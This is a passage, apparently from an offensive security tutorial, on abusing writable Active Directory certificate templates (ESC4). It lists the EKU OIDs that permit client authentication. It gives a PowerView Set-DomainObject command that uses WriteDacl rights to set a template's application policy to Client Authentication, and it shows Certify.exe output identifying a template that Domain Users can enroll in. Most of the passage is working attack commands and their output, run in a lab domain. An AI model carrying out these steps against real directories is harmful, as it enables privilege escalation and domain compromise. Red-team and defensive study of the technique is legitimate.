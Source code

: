 + Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)

+ Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)

+ PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)

+ Any Purpose (OID: `2.5.29.37.0`)

+ No EKU

> __NOTE__: If CA servers don't enable PKINIT Client Authentication, we can not use PKINIT Client Authentication in this step.

In this article, we set Certificate Application Policy Extension to "Client Authentication".
Abusing WriteDacl, we can achieve this by `Set-DomainObject` function of PowerView as follows:

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-certificate-application-policy' to '1.3.6.1.5.5.7.3.2' for object ''
PS C:\Tools>
```

The output of `Certify.exe` is following:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT, SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```
